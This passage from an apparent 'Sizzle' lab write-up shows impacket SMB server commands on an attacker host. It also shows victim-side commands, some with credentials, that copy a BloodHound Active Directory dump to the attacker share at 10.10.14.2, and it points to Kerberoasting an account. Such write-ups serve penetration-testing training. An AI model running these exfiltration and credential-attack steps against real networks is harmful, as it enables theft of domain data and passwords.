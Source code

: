 > **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy 20250628205548_BloodHound.zip \\10.10.14.2\smbFolder\20250628205548_BloodHound.zip
```

> **Attacker Machine**:

```bash
# Or:
impacket-smbserver smbFolder $(pwd) -smb2support -username oldboy -password oldb0yHello
```

> **Victime Machine**:

```cmd
net use x: \\10.10.14.2\smbFolder /u:oldboy oldb0yHello
dir x:\

copy 20250628205548_BloodHound.zip x:\bloodhoun.zip
```

<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_77.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_78.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_79.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_80.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_81.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I start my research with **BloodHound**, the first thing I find is that only two accounts are part of the **Domain Admins** group. Before I continue I will look for the account I already have engaged and add it as **owned**, now I can continue and look for the shortest path to the **Domain Admins**, the groups to which **amanda's** account belongs, without finding much for the moment. But if I look for those **[Kerberoastable](https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html){:target="_blank"}** accounts, I find **mrlky's**, maybe it is a possible attack vector.

> **Kerberoasting** is a **post-exploitation attack technique** targeting the **Kerberos** authentication protocol, enabling adversaries to extract encrypted service account credentials from **Active Directory**.

> **[Kerberoasting Attack](https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html){:target="_blank"}**: The adversary then requests **Kerberos ticket granting service** (**TGS**) tickets for the service accounts and extracts the password hashes from memory. Tools such as **Rubeus** fully automate the process.
